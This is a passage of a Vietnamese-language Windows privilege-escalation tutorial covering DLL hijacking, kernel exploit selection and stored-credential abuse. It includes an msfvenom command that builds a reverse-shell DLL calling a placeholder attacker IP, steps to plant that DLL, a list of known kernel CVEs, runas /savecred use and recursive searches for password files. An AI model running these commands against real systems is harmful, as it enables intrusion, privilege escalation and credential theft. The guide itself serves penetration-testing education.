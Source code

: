##### Khai thác

```powershell
## Tạo DLL độc hại
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f dll -o malicious.dll

## Đặt DLL vào vị trí thích hợp
copy malicious.dll "C:\Program Files\Vulnerable Application\missing.dll"

## Khởi động lại ứng dụng
```

#### 4.3.7. Kernel Exploits

Lỗ hổng kernel thường là lựa chọn cuối cùng do tính không ổn định, nhưng chúng có thể rất hiệu quả nếu hệ thống không được cập nhật bản vá.

##### Xác định phiên bản hệ điều hành và hotfixes

```powershell
## Thông tin hệ thống
systeminfo

## Hotfixes đã cài đặt
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

##### Các exploit phổ biến

- **MS16-032**: Windows 7-10/Server 2008-2012 R2 (x86/x64)
- **MS15-051**: Windows 7-8.1/Server 2008-2012 (x86/x64)
- **CVE-2020-0796** (SMBGhost): Windows 10 versions 1903/1909
- **CVE-2021-34527** (PrintNightmare): Multiple Windows versions

##### Sử dụng công cụ Watson/Sherlock để tìm kiếm
```powershell
## Tải và chạy Watson
.\Watson.exe
```

#### 4.3.8. Stored Credentials

Windows thường lưu trữ thông tin đăng nhập trong nhiều vị trí khác nhau trên hệ thống.

##### Kiểm tra thông tin đăng nhập lưu trữ

```powershell
## Windows Credential Manager
cmdkey /list

## Thực thi lệnh với thông tin đăng nhập đã lưu
runas /savecred /user:admin "cmd.exe /c whoami > C:\Users\Public\whoami.txt"

## Kiểm tra tệp cấu hình
dir /s /b *pass* == *cred* == *vnc* == *.config* == *.txt*
findstr /si password *.xml *.ini *.txt *.config
```

